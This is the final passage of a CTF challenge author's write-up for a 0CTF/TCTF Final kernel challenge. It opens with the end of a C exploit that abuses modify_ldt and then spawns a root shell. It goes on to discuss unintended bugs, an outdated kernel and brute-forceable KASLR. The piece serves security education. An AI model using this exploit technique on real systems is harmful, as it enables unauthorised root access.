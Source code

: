 ```c
        u_desc.limit=0;
        u_desc.seg_32bit=0;
        u_desc.contents=0;
        u_desc.read_exec_only=0;
        u_desc.limit_in_pages=0;
        u_desc.seg_not_present=0;
        u_desc.useable=0;
        u_desc.lm=0;
        sleep(3);
        ret=syscall(SYS_modify_ldt, 1, &u_desc,sizeof(u_desc));
        printf("%d\n",ret);
        sleep(100000);
    }
    sleep(5);
    printf("%d\n",geteuid());
    setreuid(0,0);
    setregid(0,0);
    system("/bin/sh");
}
```

## unintended mistakes

The intention of this challenge is to let players focus on the small slab objects in kernel and try to bypass kaslr when HARDENED_USERCOPY is on. However, I've made serveral mistakes 

* KERN_SHOWNOTE is designed just for fun, but I didn't use get_current_user() correctly, causing the refcount bigger and bigger. This unintended bug may mislead some players.
* I used linux kernel 5.11.9 I've built before for laziness, which is already end of life and sufffers from several cve vulnerabilities. Congratulats to @Balsn for a perfect 1 day exploit.
* I didn't notice that the kaslr on linux kernel text is just 9bits randomization. Congratulats to @organizers for brute forcing with a optimized binary. But, of course, there will be a proof of work next time.

## conclusion

It is my first time to design a kernel challenge for 0CTF/TCTF Final. I caused some unintended mistakes for the lack of enperience and I'm sorry for your inconvenience. However, I believe my solution to bypass kaslr with ldt_struct is novel and I hope you enjoy the challenge.
